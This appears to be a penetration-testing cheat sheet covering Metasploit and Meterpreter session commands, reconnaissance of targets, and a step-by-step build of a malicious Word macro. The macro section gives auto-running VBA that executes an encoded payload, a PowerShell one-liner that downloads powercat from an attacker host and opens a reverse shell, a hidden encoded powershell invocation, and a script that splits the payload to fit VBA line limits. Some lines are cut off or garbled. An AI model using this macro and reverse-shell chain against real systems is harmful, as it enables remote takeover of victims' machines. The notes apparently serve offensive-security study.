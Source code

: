 	Staged payloads denoted by `/`

To push a session to background: `Ctrl+Z` and `Y`
To list sessions: `sessions -l`
To interact with a session: `sessions -i id#` eg. `sessions -i 2`
To kill a session: `sessions -k #id`
To kill all sessions: `session -K`
To list 
### Meterpreter
- Run `help` for details
- To create a shell inside meterpreter: `shell` (This also creates a channel)
- Channels can be switched between with `channels` and the same commands as `sessions`
- Adding `l` as a prefix forces the command locally (eg. `lpwd` is `pwd` on the local Kali VM)

# Client-side Attacks
## Information Gathering
Metadata on files: `exiftool -a -u brochure.pdf`
- -a for duplicated tags, -u for unknown tags
Use theHarvester to extract an email address from a target
Use canarytokens.org/generate to create tokens if a target link is accessed

## RCE with Office Macros
- Save .doc file (not .docx) with easy to ID name (eg. mymacro.doc)
me Macro (eg. MyMacro), select .doc name from "Macros in:" then Create
- Add VBA Code
```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()
	Dim Str As String
	PLACE-BASE64-ENCODED-ATTACK-STRING-HERE--MAX-LINE-LENGTH-50-CHAR
	--CONCAT-LINE-STRINGS-WITH-PYTHON-TO-AVOID-CHAR-LIMIT
  CreateObject("Wscript.Shell").Run Str
  
End Sub
````````

- Take Powershell one-line reverse-shell; ````
IEX(New-Object System.Net.WebClient).DownloadString('http://attackerip.serving.powercat/powercat.ps1');powercat -c attackerip.for.reverse.shell -p 4444 -e powershell
- Use https://www.base64encode.org/ to convert to base64 string with UTF-16LE
- Break base64 string into 50 chars with python (use mousepad to create script.py)
````
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
````
- Run script to produce something like;
````
````